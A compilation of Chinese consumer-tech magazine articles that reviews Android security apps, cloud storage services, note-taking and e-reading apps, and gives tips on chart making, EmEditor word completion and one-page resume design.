关于横坐标轴的标签显示，这里多说两句，像上图这种时间跨越几十年的图表，没必要把每一个年份标签都显示出来，我们可以在“设置坐标轴格式”中“指定（标签）间隔单位”。上面的示例中，我们把指定间隔单位值设为5，即每隔5个单位显示一个标签。

我们知道，英国的《经济学人》刊物经常使用大量图表，风格自成一派，且是线形图的使用大户，他们的风格就值得我们借鉴，如图12，就是一例。

## 结语

上面介绍的是我们日常工作学习中最常用到的几种数据图表类型，还有很多种其他类型的图表，有机会再跟大家一一交流。其实，对图表的应用并没有固定的程式，但是，只要把握住以下几点，就能做出比较专业的图表：

> A. 最核心的问题就是要针对需要表达的不同观点来选择合适的图表类型，这就要求对数据有着深刻的认识；
> B. 日常办公软件提供给我们的图表，我们可以根据自己的需求加以改造，以求达到更好的展示效果；
> C. 对图表的外观做必要的修饰，是专业精神的一种体现，更重要的，可以帮助观众更好地理解图表所要传达的信息。

最后，欢迎大家就这方面的问题，与我交流。

我的微博：http://weibo.com/pptkeynote
我的博客：http://blog.sina.com.cn/pptkeynote

(文/老S)

## 放心用手机 Android手机安全软件评测

随着智能手机的普及，手机的安全性问题也日益提到了每个人的日程上。手机上常见的安全问题有：

-   ★电话号码被盗：轻则广告骚扰，重则自己或亲友被骗。
-   ★炒股、支付宝账号密码被盗，钱财洗劫一空。
-   ★响一声电话、吸费陷阱，话费很快耗尽。
-   ★手机丢失：除手机本身外，以上灾难全降临。

为此，手机安全软件也应运而生。那么，究竟哪一款能为我们的手机保驾护航呢？今天我们就来考察一下Android手机上的安全软件。

## 【测试平台】

三星 GT-S5570，其上搭载Android 2.2.1操作系统。

## 【参测软件】

做杀毒软件得有一定的功底，于是，我们选择了电脑杀毒软件的手机版，共七款：
- （金山）手机卫士
- 诺顿手机杀毒软件（汉化）
- QQ手机管家
- ES安全管理
- AVG Mobiliation Antivirus
- 瑞星手机安装软件
- 360手机卫士

## 【测试项目】

这七款安全软件中，功能各异，有的多有的少，我们就以下大家最关心的问题进行测评。

### 1. 反恶意软件

与电脑杀毒软件类似，我们最关心它们的查杀效果，查杀速度，能否在向手机拷贝文件或安装应用软件时进行查杀。另外，安装手机安全软件时虽然会自带病毒库，但免不了过时，为此，我们还测试了是否支持“云”查杀功能。所谓的“云”查杀是指通过手机网络连接到杀毒软件开发商的病毒库对病毒进行处理，这种杀毒方式的最大优势在于病毒库数据充足且随时处理最新状态，可有效抑制新型病毒。

### 2. 短信、呼叫过滤

手机，核心功能在于通话和收发短信，这也是安全的重灾区。相信任何手机用户都收到过广告或骚扰短信、电话、“响一声电话”。为此，我们测试了这几款安全软件的黑白名单功能。另外，黑白名单只能躲过“明枪”，但难防“暗箭”，理所当然地，我们还应测试它们能否根据短信中的关键词（比如：性、女、费用、钱）进行智能过滤。

### 3. 流量控制

目前，手机已能让我们网如影随，除包月外的流量费一般都很高，稍有不慎几十上百的费用就付之东流了，流量控制也是我们测试的项目之一。

### 4. 私密空间

对私密好友发来的短信能否隐藏起来供以后悄悄观看？对私密好友打来的电话，能否设置不同的铃声或按设定内容自动回复短信，等方便时再回话？既然名为手机安全软件，那么这些功能应该有吧。

测试总结：总的来看，国内手机安全软件在通话、短信等安全防范上功能不相上下，而国外软件不太注意这些功能，国外软件更注意的是远程锁定或擦除功能。

## 【特技展台】

现在软件的同质化倾向严重，以上各款软件，有没有各自的独家秘技呢，让我们仔细查看。

### 金山手机卫士

金山手机卫士植入了软件推荐列表，实用性较强，几乎都是免费的软件工具，省得我们自己四处寻找了。

### QQ安全助手

QQ树大招风，QQ密码、Q币、游戏账号被盗事件屡有发生。安装QQ安全助手后可按提示下载并增加“QQ令牌”组件，可多增加一层安全防护。

### 瑞星手机杀毒软件

瑞星手机杀毒软件能显示出手机中各项进程的耗电量，为我们关闭不常用的程序提供了重要依据，达到省电的目的。另外，瑞星还可对手机中的文件进行加密处理，书写加密日记等。

### 360手机卫士

你的手机是不是常被莫名扣费？360手机卫士可帮你查询。另外，360还有一个所谓的“通话防窃听保护”，不过不知其工作原理，无条件测试效果如何。

### 诺顿和ES

它们的特色功能主要表现在防盗上。如果手机丢失，最担心的是可能是其中的通讯薄、私密短信外泄，诺顿或ES的远程锁定或擦除功能，可通过发送一则短信将被窃手机自动锁定起来或自动擦除通讯薄中的电话号码。

## 【友情推荐】

这几款软件中，杀毒与短信、呼叫过滤功能不相上下，如果还有特殊需要，推荐如下的选择：

-   ★担心手机丢失，选用ES或诺顿。
-   ★担心别人使用自己手机中的程序：ES安全管理。另外，AVG也有这一功能，但只能试用13天。
-   ★保护Q币、游戏账号：QQ安全助手。
-   ★保护手机中的文件（包括照片、音乐、视频等各种文件）或书写加密日记：瑞星手机杀毒软件。

本次测评的其他工具中，它们有的功能以上几款几乎都有，最让人失望的是AVG，测试时我们发现有的功能无法使用，有的尚处于测试阶段，有的还有试用天数限制。

### 表一：以上各项测试结果

| 软件名称 | 实时查杀 | 过时查杀 | 云查杀 | 黑白名单 | 短信/来电智能过滤 | 流量控制 | 隐私电话/短信 | 远程锁定/擦除 |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| (金山) 手机卫士 | √ | √ | √ | √ | √ | √ | √ | × |
| QQ手机管家 | √ | √ | √ | √ | √ | √ | √ | × |
| 瑞星手机安装软件 | √ | √ | √ | √ | √ | √ | √ | |
| 360手机卫士 | √ | √ | √ | √ | √ | √ | √ | × |
| 诺顿手机杀毒软件（汉化） | √ | √ | × | √ | × | × | × | √ |
| ES安全管理 | √ | × | × | × | × | × | × | √ |
| AVG Mobiliation Antivirus | √ | √ | × | × | × | × | × | × |

注：实时查杀是指向手机拷贝文件或安装其他软件时，自动查杀病毒。

花样网盘用谁更方便

无论是出差还是探亲、旅游，都免不了带上照片、视频等文件。U盘、相机、MP3播放器都能胜任，但这些东西可能损坏也可能丢失。所以，我们还可以选择放到网上。无论身在何处，都可以通过网络随时下载回来。网络在线存储，不仅解决了这一问题，还可轻松地实现多人共享。目前，提供网络在线存储（也叫网络硬盘，以下简称网盘）的网站比较多。那么，究竟哪一款网盘更适合你呢？我们将对较流行的几款网盘进行测评以供大家参考。

## 【参评网盘】

网盘，使用一般比较简单。首先登录提供网络存储服务的网站并注册一个账号。接着将文件上传到网盘。今后，我们即可凭账号查看、下载已上传的文件，或者将文件的HTTP地址公布出来（也称“外链”）供其他人下载。为此，只要知道提供存储服务的网站，相信很多人都能得心应手地操作。但要注意的是，网盘并非新鲜事物，而且提供这一服务的网站比较多，有的已停止服务，有的服务方式已发生了变化。为此，我们选择了以下几款由知名网站提供的且服务相对稳定的网盘进行测评。

- ★新浪微盘：http://weibo.com/
提供网盘服务的时间虽不是太长，但其后台却是大名鼎鼎的新浪。
- ★DBank：http://www.dbank.com/
貌似不见经传，但它却是专做这一服务的，比较专业。
- ★115网盘：http://www.115.com/
相信很多朋友都从这里下载过诸如系统光盘映像、音乐、视频等大型文件，有很好的群众基础。
- ★SkyDriver：https://skydrive.live.com/
它的主人可是微软。

## 【测试项目】

网盘的基本作用，可大致归纳为两个方面：其一，通过外链方式向其他人分享，即给出存放于网盘中的文件的HTTP地址，让其他人浏览或下载。其二，存储、移动个人文件，即将文件存放于网盘以避免诸如硬盘、U盘等介质损坏而丢失，还能在异地下载回来，避免了携带笔记本、U盘等的不方便。为此，我们有必要关注它的容量大小、能上传的单个文件大小限制、能否长期存储、上传速度、能否在线预览文件、是否支持所有类型的文件、是否支持外链、有无电脑客户端或手机客户端等。下面的表格，我们对这些大家所关心的项目一一进行了测试。

## 【测试点评】

### 新浪微盘

能手动创建诸如我的图片、我的音乐等文件夹来对文件进行分类，但由于这些文件夹是人为创建的，也就无法对上传的文件进行类型限制。另外，它的客户端与整个网盘是完全同步的，为文件添加外链后即能共享，否则就是私人文件。

- ★优点：操作简单。
- ★缺点：必须有新浪账号且登录后才能下载。
- ★适用人群：长期泡在新浪微博上的朋友。
- ★特色功能：循环链接
当我们搜索到文件的下载链接时，不但可直接下载，还可单击“下载并转发”，除自己能下载外还能将链接发布到自己的新浪微博中。前面我们说过，必须是已登录的微博用户才有资格下载，这在一定程度上阻止资源的广泛传播，但新浪却通过这种循环连接的方式进行了弥补。

### DBank数据银行

作为一家国内的在线存储网站，其网盘免费百分百。在DBank网站有主页、网盘、外链三个子链接。仅主页下有少许广告，情有可原，否则它拿什么为我们提供免费的网盘服务。
在外链子页面中，可观察到哪些文件设置过外部链接，方便管理，这也是DBank的特色之一。
在网盘子页面中，有“我的网盘”、“爱同步”两个子项目，前者只能通过Web方式上传，后者与客户端相关联，可通过Web方式上传，也可在本地电脑上直接拷贝进去，网页端与客户端会自动同步，有点让人迷糊的是，这两个子项目中的文件都可由我们自由选择是否设置外链。建议大家为“我的网盘”中的文件设置外链以便共享，而“爱同步”中的文件都取消外链，专门用于存放私人文件。

- ★优点：与115网盘相比，网盘中的资源无下载时间限制。
- ★缺点：与115相比，网盘容量偏小。
- ★适用人群：发布小资源的朋友。
- ★特色功能：文件上传一点通
电脑上安装“一点通”后，“一点通”能悬浮于桌面，只要将文件拖进去就能上传，非常方便。

### 115网盘

与前面两款网盘相比，115有着明显的优势。首先，它默认有“我的文件”、“我的文档”、“我的相册”、“我的音乐”、“我的视频”、“同步盘”等分类。
其中，“我的文件”能接受任何类型的上传文件，对其中的文件能进行下载、发送、备注、删除、复制、移动、复制分享地址、续期、分享等操作，单个文件的大小限制高达1GB。网上，我们能搜索到大量的诸如视频、系统光盘映像等文件，有的就来自115网盘。另外，“我的视频”文件夹对文件提供的功能与“我的文件”相同。
“我的文档”只能接受Office类型文件，与“我的文件”比，还多出了在线预览功能。
“同步盘”与客户端相联，也能接受任何类型、不大于1GB的文件，只是无法设置共享，为我们保存私人文件提供了专门的空间。
其他文件夹则各司其职，即接受相应类型的文件，能在线预览，但无法共享。
建议将要共享的文件放到“我的文件”里，而私人文件通通塞进“同步盘”中。

- ★优点：分类细、容量大、单文件大。
- ★缺点：共享时有31天的限制，但到期时可手动续期，如有人下载也可自动续期。
- ★适用人群：如果乐意手动续期，115几乎人人皆宜。
- ★特色功能：“优蛋”专业下载。
对115共享出来的文件，除能以Web方式、迅雷方式下载外，还能用专用工具“优蛋”来下载，由于它专门针对115共享而开发，效率比较高。

### SkyDriver

这次参测的网盘中，只有SkyDriver来自国外，除速度慢、单文件仅为100MB外，它的容量最大，提供了其他网盘的所有功能，还能进行Office文件的在线编辑、多用户同时编辑等。

- ★优点：容量最大。
- ★缺点：速度慢。
- ★适用人群：需要在线编辑Office文件的用户，如果电脑上没有安装Microsoft Office，也可用在线编辑功能来替代——这可是免费的。
- ★特色功能：在线编辑Office文件。
用SkyDriver对Word文件进行在线编辑时，功能与Microsoft Word 2010类似。

综上所述，要共享文件、网上保存私人文件，选择115网盘准没错；如果还要在线编辑Office，那就光顾SkyDriver吧。爱玩微博的朋友，新浪微盘显然是不错的选择。另外，如果只想保存私人文件且如影相随，QQ文件中转站、163网盘等也可考虑。

**表一：网盘性能测试**

| 网盘 | 容量 | 单个文件限制 | 长期存储 | 上传速度 | 在线预览文件 | 支持所有类型的文件 | 支持外链 | 有无电脑客户端 | 有无手机客户端 | 特色 | 适用人群 |
|---|---|---|---|---|---|---|---|---|---|---|---|
| 新浪微盘 | 2GB | 100MB | 是 | 47KB/s | 否 | 是 | 是 | 有 | 有 | 分享到新浪，他人下载时还能再次分享，利于资源的传播 | 新浪博客的注册用户 |
| DBank | 可免费扩展为8GB | 100MB | 是 | 50KB/s | 可在线预览图片 | 是 | 是 | 有 | 有 | “一键通”上传 | 发布小型资源的用户 |
| 115网盘 | 可免费扩展为15GB | 最大为1GB | 是 | 56KB/s | 可在线预览Office、音乐、图片等文件 | 是 | 是，但有效时间为30天 | 有 | 无 | 虚拟桌面“优蛋”下载工具 | 发布大型资源的用户 |
| SkyDriver | 25GB | 100MB | 是 | 30KB/s | 在线预览图片，预览并编辑Office文件 | 是 | 是 | 有 | 无 | 在线创建编辑Office文件 | 需要在线办公的用户 |

## EmEditor 重复文字输入更快

在编辑处理文字时，某些短语或句子在上下文中往往会出现多次。对于此类重复的文字，手正输入或者通过查找、复制的方式输入，都比较麻烦。有名的记事本软件EmEditor里边的“字词完成”插件，可以自动提醒前文已经输入的文字，只须按下空格键，就能够完成重复文字的快速输入操作。

1. 添加“字词完成”插件
先从“http://www.orsoon.com/Soft/10869.html”下载“EmEditor”并安装运行之。然后在其主界面中单击菜单“工具→插件→自定义插件”，打开“自定义插件”对话框并勾选“字词完成”复选框；最后单击“确定”按钮即可。

2. 配置“字词完成”插件
右击EmEditor插件工具栏中的“字词完成”插件并选择“属性”，接着在弹出的“字词完成属性”对话框中，选中Text选项，然后单击该对话框中的“属性”按钮，打开“Text属性”对话框的“字典”选项卡，再勾选“在字典文件中的字词”复选框并单击右边的“…”按钮，将EmEditor安装目录下的文本文件“字词自动输入”添加进来（该文件不存在，可自己创建）；最后切换到“Text属性”对话框的“键盘”选项卡，选择“命令”下边的“完成”参数，根据自己的需要为其指定一个快捷键（如“Space”键，即空格键）并单击“确定”按钮就可以了。

3. 享用快速输入成果
经过以上步骤的操作，当我们使用EmEditor编辑处理文字时，先选中工具栏中的“字词完成”插件，以后如果输入的短语或句子在上文中已经出现过，则会弹出一个提示框，通过按下“↑”或“↓”键，选择需要输入的短语或句子，按下空格键就可以完成对应文字的快速输入操作；当然，如果提示框中只有一条提示文字且正好是自己所要输入的，可直接按下空格键，就能够实现文字的快速输入。

小提示：
对于自己经常输入的一些短语或句子，大家可将其保存到EmEditor安装目录中的文本文件“字词自动输入”里边（输入每个短语或句子后，须按下回车键）；这样在任意一个使用EmEditor打开的文本文件中，即使是第一次输入那些常用的文字，也可以实现自动提示输入。

一页纸简历 如何才能做得更好

在找工作的过程中，有时简历起着很重要的作用。不过在前几年，许多大学生的简历追求过度包装，简历封面花样百出，一份简历搞得像一份方案一样，让一些职场老鸟都叹为观止。这样的简历可能花费不菲，但实际效果是把企业的人资经理搞得审美疲劳了，在她们看来学生以为的美的简历不过是充满颜色和图片而已，反而导致无法快速客观了解一个人的实际情况。所以现在提倡的是一页纸简历，简洁明了。许多大学生朋友之所以钟爱“厚”简历，是觉得一页纸简历信息量太少，而且格式太单调，把自己的个性淹没在单元格里了。其实，精心设计，一页纸简历同样很出彩。

## 原始简历

比如，一般用人单位看到学生的一份纸的简历，往往如图1所示。这个简历还是我简要指导了一下学生做出来的，内容已经开始考虑用人单位要看什么，自己要展示什么特点的角度去整合自己的经历了。比那些简单且千人一面的一份纸简历要好很多了。不过这份简历说实话还是完全没有办法突出你要表达的核心信息。这样的简历，怎么可能吸引人？越是一份纸，越要拼内涵！

所以我想到，PPT设计的思维不正是希望在有限的空间传递最多的信息吗？我尝试用PPT的设计思维改造了这个学生简历。简历还是简单一页表格，还是黑白配，请大家看看，经过改造后的版本是不是有意思多了？（见图2）结合自己制作PPT的经验，利用我讲授的PPT课程里的排版六原则（对齐、聚拢、重复、对比、强调、留白）做了改造，提炼观点，突出重点，再进行排版强化做了一点改造，在文字不做大的删减，信息不遗漏的情况下，修改后的简历是不是能够让用人单位一眼看到你的精彩点？总结一下，它有以下几个改造要点：

- 1. 为表格每个单元内容增加标题；
- 2. 充分利用对齐的排版思路，区分表格的空间；
- 3. 通过调整段落间距提升文字的可读性；
- 4. 利用对比制造关键词的标签效果；
- 5. 重复、统一排版的风格。

其实这个Word排版大部分同学看到样例就可以模仿排出来，甚至排得更好！我这个案例只能说是抛砖引玉，帮助大家打开思路，希望对各位即将找工作的大学生们有启发。

## 实战 1：划分开你的版面

如图3所示，是一份时装设计师助理的简历，他在版面的处理上很有想法。这份简历的优势是全部利用灰色色系，利用颜色把视觉版面划分开，导航条和正文栏目分割得非常清楚，栏目对应感很强烈，在颜色色块上采用多边形处理，制造了强烈的设计感，这点是我们要学习的。

## 修改后的简历

## 设计师的简历

## 修改后的设计师简历

缺点方面，我觉得文字略多，提炼功夫不够，虽然每个人都想把自己精彩的内容都放上去，但是没有人会在那么短时间内认真看。专业技能主要是强调外语能力，我建议放在前面，比较英语专八，还懂法语的人才对很多单位是亮点！所以我略做修改，纯粹为排版改造，直接在图片上P了下，有些小细节还没有改好，主要是对齐。（见图4）

## 实战 2：百度一下，你就知道？

什么是一份好简历似乎人人都能说上几句，但是大部分人的简历并没有随着职业经验的丰富而进化，制作简历时容易犯的低级错误仍然一再重复。这次网友刘凯尝试了一个新的简历，界面是高仿百度搜索界面，让我们先看看他的设计，然后评估一下这样的设计好不好？（见图5）整个简历，创新之处是模仿百度界面，有新鲜感。一般而言，这样的创意简历必须寻找哪些喜欢创意的企业应聘。我认为这是一份很好的简历基础，但是需要进一步完善。首先这个简历缺乏明确标识，别人会误会，排版右边太空；模仿百度界面不够彻底，有点四不像感觉。

- 1. 得想办法加一个标题，假如不写明这是一份简历的话，很多HR会误会自己收到一封垃圾邮件，所以至少要在简历邮件上写清楚“个人简历：应聘***岗位”。
- 2. 百度搜索框上的分类搜索文字我建议去掉，它并不表达核心信息，而百度一下对话框，里面应该直接写“刘凯 求职岗位：***”，这才符合别人搜索你个人信息的习惯。
- 3. 百度百科应该把下面的教育背景信息放在联系方式右边，去掉感谢70man之类的内容，这是你的简历，不需要感谢我。而且这样开始解决整体排版左重右轻的问题，右边留白过大。
- 4. 我的建议是个人基本信息下面的内容除了保留实习经历的排版，全部改成类百度搜索结果，八卦那个什么的，可不要用，这是简历，杜绝八卦。比如标题是：刘凯-以市场思维创造双赢业绩（这个标题文案得琢磨下，如何吸引HR的心）。下面写不超过140字的正文介绍。这样就可以把原来搜索框内容和下面的文字变成类似百度搜索结果的内容，也能更多展示自己的特点，也实现了对百度界面的高仿。如此修改后版面右边留白过大的问题也就不存在了。
- 5. 相关搜索我觉得很好，完全可以把关键词内容设计得更吸引眼球一些。假如你懂SEO的话，就知道如何设计这个简历的标题和文案，同样，懂SEO的人，也能一眼判断出你懂还是不懂。

## 仿百度简历

关于简历，今天暂且聊这么多，有机会我们会再多找一些精彩案例来进行分析借鉴。

> (文/秋叶)

随想随记的云端“笔记本”——七款笔记软件终极对决

信息时代，我们每天都在获取信息、加工信息、生成信息，那么怎样随时记录下自己的所见所闻所思，在需要时又能及时查阅呢？笔记本软件可让你心想事成，就让我们从众多软件中挑选最适合自己的那一款吧。

## 【参评软件】

- ★有道笔记
  http://note.youdao.com
- ★Evernote
  http://www.evernote.com
- ★Wiz
  http://www.wiz.cn
- ★牛特笔记
  https://www.noteer.com
- ★麦库
  http://note.sdo.com
- ★QQ邮箱记事本
  http://mail.qq.com
- ★OneNote
  Office2010自带组件

## 【测试方法】

我们认为笔记类软件应该具备四大特性：操作人性化、多途径记录、笔记云存储、支持多平台。后面的测试，我们会将这四方面细化成多个小项目，标出是否具备相应功能，便于朋友们一目了然地做出选择。

比如操作人性化，可细分为是否支持自定义分类，是否支持添加标签，能否方便搜索，能否添加文档附件等。

工作生活中记笔记的场合各不相同，不同场合有不同需要，如文字笔记、手写笔记、录音笔记等。是否支持多途径记录也是衡量软件优势的一大条件。

其他如笔记云存储、支持多系统，我们也做了适当细化，以方便大家做出适当的选择。

## 【特色应用】

### 实用的拍照笔记——有道笔记

- ★优势：出自名门网易，空间大，服务有保障。
- ★劣势：记录笔记的方式单一。
- ★适用人群：办公室文员、网易或126邮箱用户。

iPhone版的有道笔记客户端有个实用的功能，非常适合学生朋友使用。平时上课时，我们可以将老师的板书拍下来，这里提供白板拍照自动校正功能（见图1），对拍摄的歪斜白板照片，可运用智能算法自动矫正并去除冗余背景，一拍存档，是学习的高效助手。

### 轻松记录我的快乐——Evernote

- ★优势：支持Windows和Mac系统，支持多款品牌的移动设备。
- ★劣势：免费用户每月只有60MB的网络存储空间，同步数据时速度有些慢。
- ★适用人群：拥有多款移动设备的商务人士；经常需要在不同设备之间查阅笔记的用户。

### 会议录音笔记轻松做——EverNote

你平时的工作中是不是会议很多？在给手机装了Evernote后，开会时就可以录音（见图2），会后打开电脑上的Evernote就可以重听录音、整理会议记录喽。录音过程中，还可以直接现场拍照添加到笔记中，会议结束后停止录音并保存笔记，稍后就会自动同步到网络中，很是方便。

### 邮件也能成笔记——麦库

- ★优势：支持加密单篇笔记。
- ★劣势：记录笔记方式单调。
- ★适用人群：以文字笔记为主的撰稿人、作家等；爱写日记的宅男宅女。

麦库除了记录笔记这些基本的功能外，还有一些特别的“功夫”，比如：我们平时发邮件时，可能有些邮件也是一份笔记，而麦库可以接受邮件并转换成麦库中的笔记。在“Email绑定快存”中绑定自己的常用邮箱后，以后在用该邮箱发邮件时，只要抄送到note@sdo-service.com，那么这封邮件（含附件），则会自动同步到麦库的“默认分类”中，以后在麦库中也能查阅这份邮件。

#### 小提示：

麦库在安全性方面做的还是非常到位的，它可以对笔记进行双重加密，选择菜单“账户→设置本机登录密码”，则可给本机麦库添加登录密码；右击添加的笔记，选择“加密笔记”，则可给当前笔记添加密码。

### 可“直播”的笔记本——OneNote2010

- ★优势：与微软的office完美整合，可手写笔记，便于会议时进行讨论，可记录音视频笔记，可共享到Windows Live SkyDrive中。
- ★劣势：必须安装Office才能使用，无网络版，移动设备使用不便。
- ★适用人群：Office用户、文秘等。

OneNote2010是所有笔记软件中最庞大的，同时也是功能最强悍的，很多大公司开会时，文秘都会使用OneNote记录多媒体笔记，并且可以将会议实时笔记保存在SkyDriver中，这样还能共享笔记。

在OneNote2010笔记中，可以输入文字记录笔记，也可以插入录音或录像等元素打造多媒体笔记，还可以通过它的“绘图”选项手写笔记。

在OneNote2010中多人共享笔记非常方便，在“新建”笔记时，可以选择将笔记内容自动保存到SkyDrive网盘中。

OneNote2010还可以实现“直播”效果：右击笔记选择“立即同步此笔记本”，可以将已记录的内容同步到网络上，并可获得一个网址，将此网址发送给公司的其他员工，他们也就能同步收看会议实况了。

限于篇幅，另外几款软件特色功能不再详细介绍，仅标注出它们的优势劣势及适用人群，供大家参考。

### QQ邮箱记事本

- ★优势：操作简单，可加密笔记。
- ★劣势：没有专用的移动客户端程序。
- ★适用人群：QQ用户，爱写私密日记的人。

### 牛特笔记

- ★优势：简单易用，纯网页化操作，分享方便。
- ★劣势：笔记不能保存在硬盘中，必须能上网才可以记录或使用。
- ★适用人群：非专业人士；偶尔记录琐思，没有电脑的用户。

### wiz（为知）

- ★优势：记录笔记方式多样化。
- ★劣势：以知识管理为主，笔记功能特色不明显。
- ★适用人群：需要记录大量笔记，搞科研的专业人士。

**表一：软件功能测试**

| 软件名称 | 分类 | 标签 | 搜索 | 添加附件 | 手写笔记 | 录音 | 摄像 | 网络存储 | 导出笔记 | WAP访问 | 空间大小 | Android | Windows Mobile | iPhone | iPad |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :--- | :---: | :---: | :---: | :---: |
| 有道笔记 | √ | × | √ | √ | × | × | × | √ | × | √ | 初始空间1GB，根据在线时长自动增加空间。 | × | × | √ | × |
| Evernote | √ | √ | √ | √ | √ | √ | √ | √ | √ | × | 免费用户每月60MB | √ | √ | √ | √ |
| wiz | √ | √ | √ | √ | × | × | × | √ | √ | √ | 免费用户每月1GB流量 | √ | √ | √ | √ |
| 牛特笔记 | √ | √ | √ | × | × | × | × | √ | √ | × | ——未知 | × | × | × | × |
| 麦库 | √ | √ | √ | √ | × | × | × | √ | × | √ | 初始空间500MB | √ | √ | √ | √ |
| Onenote 2010 | √ | × | √ | √ | √ | √ | √ | √ | √ | × | 保存在Sky Driver中，25GB | × | × | × | × |
| QQ邮箱记事本 | × | √ | √ | × | × | × | × | √ | √ | × | 默认2G，根据使用情况会自动增容，理论空间是无限的。 | × | × | × | × |

## 创意简历 一页纸同样精彩

上一期中，我们介绍了一页纸简历的重要意义及设计技巧等，并给出了一些实例。今天，我们继续挑选一些精彩实例，拓展一下大家的思路。

## 实战1：地铁带我去网络公司

我们先来看一份创意版本的简历（见图1）。



其实这个地铁线用PPT制作并不困难，稍微想一想就明白了，关键是创意和文案的配合。当然，假如在文字对齐的细节上更加注意一下，效果就更好了。如果将这份简历，在Word中转变为一份标准简历，效果就会大打折扣，而这正是大多数应聘者所做的事（见图2）。



- 标准版简历的缺点：
1. 标题字体颜色和正文一样都是灰黑色，没有放大字体加粗，颜色突出标题，导致视线失焦。
2. 个人经历正文排版没有注意把时间和事件做成表格状，阅读起来显得乱，建议前面统一时间，后面统一事件，中间都统一空一样的宽度区分。
3. 照片太小，也土，和他个人经历那么多的不匹配，换一张大一些的，帅气一些的照片绝对会给人观感不同。
4. 有一个小创意，他人评价，还留了电话，假如有你实习的单位的朋友或工作导师的电话，那就更有说服力了！

## 实战2：让你的特色像时装一样开场

关注本话题的读者朋友，一定还记得上期文章中的设计师的实例吧。这位黄朋友的投稿作品，还附有一份她的时装构思速写草图（见图3）。其实这幅手绘速写，我个人觉得非常适合做出简历上的作品墙，放在首页，让人眼前一亮，而且对你...的特长一目了然。这样重新设计之后，果然让人眼前一亮（见图4）。





从简历角度看，很简洁，时间轴排版很有新意，大家要模仿起来也不困难。想到用颜色区分视线区域的人，多少都看过一些设计书，这位朋友本来就是学设计的。从简历和作品看得出来，这位女孩子还是有心有才的人，假如找到一个方向坚持足够长的时间，使自己的才华变成职业的必杀技，甚至很好地和个人兴趣结合，这是前途无量的事情。

## 实战3：时尚杂志可借鉴

学PPT最好的方法是什么？是多看优秀的平面设计作品，在平面设计领域，那才是高手如云。比如每一份杂志，从标题到目录，从文字到图片的排版值得借鉴得有很多，那么一页纸简历的突破口，也可以从杂志排版这里开始。读者刘凯的投稿，借鉴了时尚杂志的目录页版式，非常新颖独特，给人的印象深刻。而且他将简历的具体内容，与目录的版式特征很好的融合为一体，条理清晰，重点突出，效果很不错（见图5）。



## 实战4：微博体简历

如图6所示，是一名硕士二年级的学生的投稿。我看了这份Word简历后，觉得很有创意：
1. 开头的微介绍有创意，我的改进建议是：微介绍这里直接模仿微博界面，把头像和微介绍合并成微博式样，要高仿。
2. 下面的个人能力用五项修炼的思维结构组织也很有新意，相信很讨HR的欢心。
3. 个人经历视觉化效果不错，大量留白，有点类似信息图表，不过可读性不好，但是用矩阵颜色强调关键信息的方式不错。
下面看看他修改后的结果（见图7）：在这个版本中，个人信息占用位置太多，不如直接做在一行。不过相比而言，我更喜欢这个版本的，部分色块信息他是掩盖真实信息的，其实直接用无关文字替换效果更好。
2. 微介绍我希望能够最大形式借用微博的特点，带头像，可以随便选一个头像，逼真，另外文字应该放进微博对话圆角矩形框，最后带一点箭头，这个可以用任意多边形画出来。



## 实战5：用好小图标

首先我们来看看下面这位朋友的作品（见图8）：这个简历最大的优点是配色选对了，科技行业很适合用蓝白色，一看就有科技时尚感。这个简历还有一个非常大的特点，就是大量使用了小图标，很多小图标因为大家约定俗成，已经能代表很多具体的含义，可以节约大量的描述信息，这是一个抓眼球的亮点。



- 这个简历的缺点，个人认为有以下几条：
1. 部分小图标的选择比较随意，比如个人能力的小图标，粗看上去很抢眼，但是图标和内容的关联性不够强，显得很随意。
2. “我的能力”文案部分虽然排版很整齐，但是显然能力的陈列没有条理，经不起仔细推敲，比如英语能力和日语能力一头一尾，让人有些不明所以。
3. 大标题采取右对齐设计，不如左对齐，而且“主要实践经历”的“主要”两字是画蛇添足，全部是四字标题，排版对齐都很不容易。
4. 其他关于我的事，在简历排版中不妨左对齐，缩进对齐我个人感觉不如左对齐好看。

当然以上仅是一点我个人的意见，总的来说，这份作品体现了刘同学的积累和美感，看起来出色的简历，背后一定都有一些不容易的故事，这就留给有兴趣的HR去打探了。最后顺便说一说，在我最近选择的投稿简历中，最大的特点是选择个性化构思的突破口，当然这个突破口要符合你的求职雇主的定位，比如有的朋友尝试腾讯微博，用微博体和界面设计简历，这份简历在很多HR那里可能会很不看好，但是在腾讯这个互联网公司，也许会为你挣来一个面试的机会。（文/秋叶）

## 移动看书 谁最适合你——5款Android手机阅读软件横评

随着大屏幕智能手机的普及，用手机看电子书已经成为许多人的习惯。但大家也知道，手机本身是没有阅读软件的，所以想看书的朋友就只能选择使用第三方看书软件来解决这个问题。那么到底哪款手机看书软件才是最适合自己的呢？
本次我们以目前市场占有率最高的Android系统手机为例，对阅读软件中大家最为关心的支持格式，内存占用，本地阅读、在线阅读以及阅读体验等来进行横向比较。

### 【测试平台】

HTC Desire G7，搭载Android 2.3.5操作系统。

### 【参评软件】

本次参评的五款手机阅读软件是目前书友们最经常使用、口碑也相对不错的手机阅读软件。
★91熊猫看书
版本：1.99
下载：http://ks.sj.91.com
★开卷有益
版本：2.7
下载：http://www.kingreader.com
★百阅
版本：2.32
下载：http://www.byread.com
★QQ阅读
版本：1.6
下载：http://qqreader.qq.com
★iReader
版本：1.3.2
下载：http://www.zhangyue.com

### 表一：手机阅读软件基本功能对比

| 软件名称 | 开卷有益 | 百阅 | iReader | QQ阅读 | 熊猫看书 |
| --- | --- | --- | --- | --- | --- |
| 空间占用 | 3.55MB | 516KB | 3.32MB | 2.71MB | 7.60MB |
| 内存占用 | 12.45MB | 10.3MB | 13.1MB | 11.19MB | 12.41MB |
| 常用格式 | √ | √ | √ | √ | √ |
| 在线书城 | × | √ | × | √ | √ |
| 在线看书 | × | √ | × | √ | √ |
| 模拟书架 | √ | √ | √ | √ | × |
| 检索过滤 | √ | √ | × | × | √ |
| 模拟翻书 | √ | × | √ | √ | √ |
| 阅读备份 | √ | √ | √ | × | × |
| 断章分页 | 手动 | 手动 | 手动 | 手动 | 自动 |
| 翻页方式 | 较丰富 | 较少 | 丰富 | 较少 | 较少 |

### 【功能对比】

#### 开卷有益
- ★优势：本地化阅读体验出色，支持阅读历史备份。
★劣势：网络功能弱，没有自己的书城。
★适用：喜欢把电子书下载到本地或经常刷机的书友。

